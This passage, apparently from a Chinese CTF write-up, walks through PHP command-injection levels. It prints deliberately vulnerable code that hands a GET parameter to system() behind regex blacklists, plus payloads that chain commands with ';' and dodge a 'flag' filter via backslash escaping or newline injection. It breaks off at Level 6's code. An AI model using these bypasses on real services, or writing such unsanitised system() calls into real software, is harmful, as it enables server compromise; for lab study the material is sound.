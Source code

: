 检测$_GET['ip']的输入，后执行ping -c 1 $ip，很明显的一个命令截断，可以用；分割成多个命令

直接构造payload：`ip=127.0.0.1;cat /flag`

----

# Level 5 - 黑名单式过滤

### 审计代码

```php
<?php 

function hello_shell($cmd){
    if(preg_match("/flag/", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```

与以上题不同在于，这次的命令中用preg_match()函数过滤了flag这个字符

### 绕过

这里正则表达式`/flag/`并没有过滤 \ 等（可以用转义\来绕过），也没有使用 . 模式（只能匹配一行，使用%0A可以绕过）

构造payload：`?cmd=cat /fl\ag`

----

# Level 6 - 通配符匹配绕过

### 审计代码

```php
<?php 

function hello_shell($cmd){
    if(preg_match("/[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]/", $cmd)){
        die("WAF!");
    }
    system($cmd);
}

isset($_GET['cmd']) ? hello_shell($_GET['cmd']) : null;

highlight_file(__FILE__);


?>
```
